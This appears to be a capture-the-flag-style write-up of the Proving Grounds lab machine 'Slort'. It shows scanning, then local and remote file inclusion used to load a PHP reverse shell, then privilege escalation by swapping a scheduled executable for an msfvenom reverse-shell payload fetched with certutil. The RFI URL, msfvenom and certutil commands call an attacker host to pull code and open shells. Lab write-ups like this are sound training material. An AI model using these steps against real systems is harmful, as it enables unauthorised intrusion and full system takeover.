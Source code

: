 ```yaml
---
layout: post
title: PG | Slort
subtitle: For this machine, enumeration is key.
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 07:45 UTC
Nmap scan report for 192.168.182.53
Host is up (0.015s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, HTTPOptions, NULL, SIPOptions, SMBProgNeg, TLSSessionReq, TerminalServerCookie, WMSRequest, ms-sql-s, oracle-tns: 
|_    Host '192.168.45.185' is not allowed to connect to this MariaDB server
4443/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.182.53:4443/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.182.53:8080/dashboard/
|_http-open-proxy: Proxy might be redirecting requests
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-29T07:48:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 189.12 seconds
~~~

## FTP (TCP/21)

I begun enumeration by attempting an anonymous connection to FTP which failed
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ ftp anonymous@192.168.182.53 
Connected to 192.168.182.53.
220-FileZilla Server version 0.9.41 beta
220-written by Tim Kosse (Tim.Kosse@gmx.de)
220 Please visit http://sourceforge.net/projects/filezilla/
331 Password required for anonymous
Password: 
530 Login or password incorrect!
ftp: Login failed
~~~

## SMB (TCP/139, 445)

I attempted a NULL SMB session which also failed
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ smbclient -N -L //192.168.182.53
session setup failed: NT_STATUS_ACCESS_DENIED
~~~

## MySQL (TCP/3306)

In the nmap scan it states our IP is unable to connect to the MariaDB server on the target, this is most likely because the server is hosted locally on port 127.0.0.1 and inaccessible over the internet

Oracle-TNS uses encryption and TLS to protect database communication over a network
~~~shell
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, HTTPOptions, NULL, SIPOptions, SMBProgNeg, TLSSessionReq, TerminalServerCookie, WMSRequest, ms-sql-s, oracle-tns: 
|_    Host '192.168.45.185' is not allowed to connect to this MariaDB server
~~~
## HTTP (TCP/4443)

I first ran a feroxbuster subdirectory scan and found 3 sub-directories: site, dashboard and img
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ feroxbuster -u http://192.168.182.53:4443 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -o SlortDirs
~~~
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ cat SlortDirs         
301      GET        9l       30w      346c http://192.168.182.53:4443/site => http://192.168.182.53:4443/site/
302      GET        0l        0w        0c http://192.168.182.53:4443/ => http://192.168.182.53:4443/dashboard/
301      GET        9l       30w      345c http://192.168.182.53:4443/img => http://192.168.182.53:4443/img/
~~~
After browsing to http://192.168.182.53:4443/site I immediately noticed the URL could potentially contain a File Inclusion vulnerability

![Slort](/assets/img/SlortPG(1).png)

I started by testing for Local File Inclusion by attempting to pull files from the target machine and display them on the website using common Windows file paths from [here](https://gist.github.com/korrosivesec/a339e376bae22fcfb7f858426094661e) which succeeded!

![Slort](/assets/img/SlortPG(2).png)

I then tested if a Rmote File Inclusion (RFI) exists by starting a HTTP server on my attack machine then sending a HTTP GET request through the targets URL 'page' parameter
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ python3 -m http.server 80                                                            
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~

![Slort](/assets/img/SlortPG(3).png)

~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.182.53 - - [29/Oct/2023 08:34:28] "GET /test HTTP/1.0" 200 -
~~~
The RFI worked! We can therefore try to transfer a shell and get our initial foothold

# Exploit

I downloaded [this](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php) PHP Reverse shell and changed the IP, Port and directory parameters

![Slort](/assets/img/SlortPG(4).png)

![Slort](/assets/img/SlortPG(5).png)

I then downloaded the reverse shell to the host using the RFI
~~~shell
http://192.168.182.53:4443/site/index.php?page=http://192.168.45.185/shell.php
~~~
I started a listener on port 21 to avoid firewall restrictions
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ nc -nvlp 21
listening on [any] 21 ...
~~~
I then ran the reverse shell payload
~~~shell
http://192.168.182.53:4443/site/index.php?page=shell.php
~~~
And I recieved my initial foothold!
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ nc -nvlp 21
listening on [any] 21 ...
connect to [192.168.45.185] from (UNKNOWN) [192.168.182.53] 50814
b374k shell : connected

Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\site>
~~~
# Privilege Escalation

I started enumeration for Privilege Escalation by running a winpeas scan and found an executable file 'TFTP.EXE' we have write permissions over

![Slort](/assets/img/SlortPG(6).png)

After navigating to the directory containing the executable, I found an info.txt file that states the file is run every 5 minutes, the Backup directory name indicates that it is most likely ran with SYSTEM (root) permissions

I created a reverse shell .exe using MSFVenom and named it 'TFTP.EXE'
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.185 LPORT=445 -f exe > TFTP.EXE 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
~~~
I started my netcat listener on port 445
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ nc -nvlp 445 
listening on [any] 445 ...
~~~
I then replaced the current TFTP.EXE file with my reverse shell TFTP.EXE
~~~shell
C:\Backup>move TFTP.EXE BACKUPTFTP.EXE
move TFTP.EXE BACKUPTFTP.EXE
        1 file(s) moved.

C:\Backup>certutil.exe -f -urlcache -split http://192.168.45.185/TFTP.EXE
certutil.exe -f -urlcache -split http://192.168.45.185/TFTP.EXE
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
~~~
After a while I recieved a SYSTEM (root) shell on my listener!
~~~shell
┌──(kali㉿kali)-[~/Desktop/Slort]
└─$ nc -nvlp 445 
listening on [any] 445 ...
connect to [192.168.45.185] from (UNKNOWN) [192.168.182.53] 50861
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
slort\administrator
~~~
